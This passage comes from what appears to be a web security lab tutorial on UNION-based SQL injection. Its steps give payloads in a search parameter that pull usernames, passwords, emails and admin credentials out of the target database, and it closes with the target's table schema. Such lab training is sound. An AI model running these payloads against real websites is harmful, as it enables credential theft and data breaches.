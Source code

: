 ```
?search=laptop' UNION SELECT NULL,username||':'||password FROM users--
```

**Result**: You should see both username and password separated by colon in the product name field.

![Username Password](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/usernamepassword.png)

#### Step 7: Three Value Extraction - Username, Password, and Email
Combine three values using concatenation:

```
?search=laptop' UNION SELECT NULL,username||':'||password||':'||email FROM users--
```

**Result**: You should see username, password, and email all in one visible field.

![Username Password Email](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/userpassemail.png)



#### Step 8: Extract Admin Data with Labels
Extract admin data with descriptive labels:

```
?search=laptop' UNION SELECT NULL,'Admin: '||admin_username||' | Pass: '||admin_password||' | Role: '||role FROM admin_users--
```

**Result**: Admin credentials with clear labels for easy identification.

![Admin Data](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/admindata.png)

#### Step 9: Maximum Data Extraction - All User Information
Extract all available user information in one query:

```
?search=laptop' UNION SELECT NULL,'ID:'||id||'|User:'||username||'|Email:'||email||'|Pass:'||password FROM users--
```

**Result**: Complete user profiles in a single visible column.

![Complete User Data](https://raw.githubusercontent.com/poridhiEng/lab-asset/384d7187ced110f790597c29edb3f78690286cd2/Security%20Lab%20Assets/Web%20Security%20Labs/SQLi/Lab%2006/images/maxdata.png)



## Database Schema Deep Dive

Understanding the target database structure helps craft effective attacks:

### products table (2 columns - limited visibility)
```sql
CREATE TABLE products (
    id INTEGER PRIMARY KEY,        -- Position 1: Not clearly visible
    name TEXT                      -- Position 2: Clearly visible (target for injection)
);
```
